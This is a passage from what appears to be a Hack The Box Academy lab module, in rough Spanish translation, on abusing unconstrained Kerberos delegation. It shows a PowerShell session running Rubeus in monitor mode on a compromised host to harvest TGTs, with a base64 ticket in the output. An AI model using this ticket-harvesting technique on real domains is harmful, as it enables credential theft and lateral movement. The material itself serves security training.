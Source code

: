 ![](https://academy.hackthebox.com/storage/modules/176/A11/GetNetComputer.png)

`WS001`y`SERVER01`se confían en la delegación sin restricciones (los controladores de dominio se confían de forma predeterminada). Entonces, WS001 o Server01 sería un objetivo para un adversario. En nuestro escenario, ya hemos comprometido WS001 y 'Bob', que tiene derechos administrativos sobre este anfitrión. Empezaremos`Rubeus`En una solicitud administrativa para monitorear los nuevos inicios de sesión y extraer TGTS:

Ataques coaccionados y delegación sin restricciones

```powershell
PS C:\Users\bob\Downloads> .\Rubeus.exe monitor /interval:1

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: TGT Monitoring
[*] Monitoring every 1 seconds for new TGTs

[*] 18/12/2022 22.37.09 UTC - Found new TGT:

  User                  :  bob@EAGLE.LOCAL
  StartTime             :  18/12/2022 23.30.09
  EndTime               :  19/12/2022 09.30.09
  RenewTill             :  25/12/2022 23.30.09
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  Base64EncodedTicket   :

doIE2jCCBNagAwIBBaEDAgEWooID5zCCA+NhggPfMIID26ADAgEFoQ0bC0VBR0xFLkxPQ0FMoiAwHqADAgECoRcwFRsGa3JidGd0
GwtFQUdMRS5MT0NBTKOCA6EwggOdoAMCARKhAwIBAqKCA48EggOLxoWz+JE4JEP9VvNlDvGKzqQ1BjjpjjO03haKFPPeszM4Phkb    QQBPfixBqQ3bthdsizmx3hdjNzFVKnUOK2h2CDFPeUia+0rCn1FllimXQwdEFMri7whC2qA4/vy52Y2jJdmkR7ZIRAeU5Yfm373L
iEHgnX4PCA94Ck/BEwUY0bk6VAWkM2FSPgnuiCeQQ4yJMPa3DK6MHYJ/1kZy+VqxwSqov/tVhATshel1vXpr4rz03ofgNtwLDYb+    K5AGYSbSct5w1jTWtGAicCCr1vpcUguIWH0Nh1lQ+tZccVtEtsrjZ/jwCKsadQWIFwhPOnVpf5drUlav1iCXmxWqQr5glW/IOOE1
lHsBolieGSyY20ZHBYjXflCGkO13mRwqO3rQ5KMs8HrC3Aqu7Popaw29at0vzZLinYnWnHUn01hh5e3QyIkqIH3CBvaPbl3RukZ7    jZRBm6BVF7R5KEWp+6Gg2joP6WvXDBCIzqL3jmxQ8NVoeeidgnBuZKpYL45E8jJjxbW4t9D8EdlX9Xu+fj/Fazw08HtRkzwG30vE
	<SNIP>
	<SNIP>
	<SNIP>

[*] Ticket cache size: 4

```
